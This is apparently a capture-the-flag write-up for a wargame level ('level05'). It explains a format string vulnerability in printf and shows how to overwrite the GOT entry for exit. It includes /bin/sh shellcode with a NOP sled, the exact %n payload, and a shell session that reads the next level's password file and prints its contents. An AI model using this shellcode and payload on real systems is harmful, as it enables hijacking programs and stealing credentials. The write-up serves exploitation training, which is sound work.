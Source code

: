 # Level05

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
// gcc -fno-stack-protector -m32 -z execstack -z norelro source.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char buffer[100]; // 0x28(%esp)
    int i = 0; // 0x8c(%esp)

    fgets(buffer, 100, stdin);
    i = 0;

    while (i < strlen(buffer))
    {
        if (buffer[i] > 0x40 && buffer[i] <= 0x5a) // 0x40 is '@', 0x5a is 'Z' aka if the character is uppercase
            buffer[i] ^= 0x20; // XOR with 0x20 (32) makes it lowercase
        i++;
    }

    printf(buffer);
    exit(0);
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability. Please refer to the [level02 walkthrough](../level02/walkthrough.md) for a detailed explanation of the format string vulnerability.

In this exercise, we have to write the address of our shellcode into the value that the GOT entry address for `exit` points to. This only works because `exit` is a function in the Procedure Linkage Table (PLT), a mechanism used in dynamic linking to call external functions. When a function like `exit` is called, the PLT initially redirects to the Global Offset Table (GOT) entry for the function, which then points back to the PLT and subsequently to the dynamic linker for the first call. Once the dynamic linker has been called, the GOT is updated with the address of the function, and the next time the function is called, the GOT will point directly to the function.
> Read more about that [here](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got).

Here you see the disassembly of the `exit` function:
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

The PLT is the set of instructions you see (`jmp`, `push`, `jmp`).  
The GOT entry for the `exit` function is referenced by the address `0x80497e0`, which is used in the indirect jump instruction.

The `jmp *0x80497e0` instruction dereferences the address stored at `0x80497e0` and jumps to it. After our tampering, this will be the address of our shellcode.

So, first let's locate our input string on the stack:
```bash
level05@OverRide:~$ python -c 'print("AAAA %x %x %x %x %x %x %x %x %x %x")' | ./level05 
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the tenth position.

Then, we need to set up our shellcode by exporting it as an environment variable:
```bash
export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll use the following C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```
```
level05@OverRide:/tmp$ ./env 
0xffffd82f
```
> That address will be different for you, you'll have to change it in the payload.

`0xffffd82f` in decimal is `4294957103`, that's bigger than INT_MAX therefore we'll have to cut it in half (2 bytes / 2 bytes).
> This is because the field width (or precision) of the `%n` format specifier is a 32-bit integer, so it can only handle values up to `INT_MAX` (2147483647).

Therefore, we'll have to write `0xffff` and `0xd82f` in the address `0x80497e0` and `0x80497e2` respectively. `0xffff` in decimal is `65535` and `0xd82f` in decimal is `55343`.
Let's construct our payload logic:
```
0x80497e0 / 0x80497e2
55343 (to write into 0x80497e0) + 65535 (to write into 0x80497e2)

Now because we already wrote 55343 bytes, we need to write 65535 - 55343 = 10192 bytes for the second value.
Futhermore, we already wrote 8 bytes for the adresses of the got entry for `exit` therefore 55343 - 8 = 55335 bytes for the first value.

Let's fix that:
0x80497e0 / 0x80497e2
55335 / 10192
```

Our actual payload:
```bash
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55335x%10$n%10192x%11$n")'; cat)| ./level05
```

Let's run it:
```bash
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55335x%10$n%10192x%11$n")'; cat)| ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

We are now level06! Let's move on to the next level.
